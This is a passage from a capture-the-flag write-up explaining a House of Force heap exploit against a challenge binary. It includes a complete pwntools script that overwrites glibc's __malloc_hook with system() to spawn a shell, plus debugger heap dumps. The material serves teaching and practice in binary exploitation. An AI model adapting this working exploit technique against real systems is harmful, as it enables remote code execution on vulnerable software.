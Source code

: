 From here, the exploit is pretty straightforward. We do another chunk allocation where the contents are the system address, which will overwrite the malloc hook. The size of the allocated chunk is not important. Now that the malloc hook is overwritten, we trigger malloc a third time with a "size" (size is the first argument of malloc, which we need to control in system) of the address that we wrote '/bin/sh' to. Here is the full exploit code:
```
from pwn import *

local = 0
if local == 1:
	target = process('./force')

	pid = gdb.attach(target, "\nb *main+286\nb *main+249\n set disassembly-flavor intel\ncontinue")
else:
	target = remote('0.cloud.chals.io', 11996)

libc = ELF('.glibc/glibc_2.28_no-tcache/libc.so.6')

def malloc_chunk(size, content):
    print(target.recvuntil(b'(2) Surrender'))
    target.sendline(b'1')
    print(target.recvuntil(b'How many midi-chlorians?:'))
    target.sendline(str(size).encode('ascii'))
    print(target.recvuntil(b'What do you feel?:'))
    target.sendline(content)
    
print(target.recvuntil(b'You feel a system at'))
system_libc = int(target.recv(15), 16)
print(hex(system_libc))

print(target.recvuntil(b'You feel something else at'))
heap_base = int(target.recv(10), 16)
print(hex(heap_base))


malloc_chunk(0x88, b'a' * 0x88 + p64(0xffffffffffffffff))

libc_base = system_libc - libc.symbols['system']
malloc_hook = libc_base + libc.symbols['__malloc_hook']

distance = malloc_hook - (heap_base + 0x90 + 0x20)
print(hex(malloc_hook))

malloc_chunk(distance, b'/bin/sh\x00')
binsh = heap_base + 0x90 + 0x10

malloc_chunk(24, p64(system_libc))

malloc_chunk(binsh, b'')

target.interactive()
```
Here are some of the notable details in the debugger following the third allocation; we have a new heap chunk starting at the malloc hook, and we overwrote it with the system libc address.
```
gef➤  heap chunks
Chunk(addr=0x1d80010, size=0x90, flags=PREV_INUSE)
    [0x0000000001d80010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x1d800a0, size=0x7fc74e039b70, flags=PREV_INUSE)
    [0x0000000001d800a0     2f 62 69 6e 2f 73 68 00 0a 00 00 00 00 00 00 00    /bin/sh.........]
Chunk(addr=0x7fc74fdb9c10, size=0x20, flags=PREV_INUSE)
    [0x00007fc74fdb9c10 <__malloc_hook+0000>    70 bb a4 4f c7 7f 00 00 0a 00 00 00 00 00 00 00    p..O............]
Chunk(addr=0x7fc74fdb9c30, size=0xffff8038b1fc6468, flags=PREV_INUSE)  ←  top chunk
```